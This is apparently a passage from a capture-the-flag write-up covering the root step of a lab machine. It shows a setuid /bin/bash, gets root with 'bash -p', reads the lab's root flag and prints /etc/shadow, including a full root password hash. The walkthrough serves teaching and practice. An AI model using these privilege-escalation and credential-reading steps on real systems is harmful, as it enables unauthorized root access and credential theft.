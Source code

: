 ```
phil@inject:/opt/automation/tasks$ ls -la
ls -la
total 16
drwxrwxr-x 2 root staff 4096 Jun 21 12:10 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
-rw-r--r-- 1 root root   150 Jun 21 12:10 playbook_1.yml
-rw-rw-r-- 1 phil phil   126 Jun 21 12:11 playbook_2.yml
phil@inject:/opt/automation/tasks$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash

```
Listing out the contents of the tasks directory you can see the 2 playbook files, checking the permissions on '/bin/bash' you can see the file permissions show that the UID and GUID will be set at execution.  
&nbsp;  

## Root

```
bash -p
bash-5.0# id
id
uid=1001(phil) gid=1001(phil) euid=0(root) egid=0(root) groups=0(root),50(staff),1001(phil)

bash-5.0# cd /root
cd /root
bash-5.0# ls
ls
playbook_1.yml  root.txt

bash-5.0# cat root.txt
cat root.txt
d485d6606f************

```  
Executing the command ```bash -p``` launches bash as root, I am now able to navigate to the root directory and read the root flag.  
&nbsp;  

**/etc/shadow**  

```
bash-5.0# cat /etc/shadow
cat /etc/shadow
root:$6$KeHoGfvAPeHOqplu$tC/4gh419crGM6.btFzCazMPFH0gaX.x/Qp.PJZCoizg4wYcl48wtOGA3lwxNjooq9MDzJZJvzav7V37p9aMT1:19381:0:99999:7:::
daemon:*:19046:0:99999:7:::
bin:*:19046:0:99999:7:::
sys:*:19046:0:99999:7:::
sync:*:19046:0:99999:7:::
games:*:19046:0:99999:7:::
man:*:19046:0:99999:7:::
lp:*:19046:0:99999:7:::
mail:*:19046:0:99999:7:::
news:*:19046:0:99999:7:::
uucp:*:19046:0:99999:7:::
proxy:*:19046:0:99999:7:::
www-data:*:19046:0:99999:7:::
backup:*:19046:0:99999:7:::
list:*:19046:0:99999:7:::
irc:*:19046:0:99999:7:::
gnats:*:19046:0:99999:7:::
nobody:*:19046:0:99999:7:::
```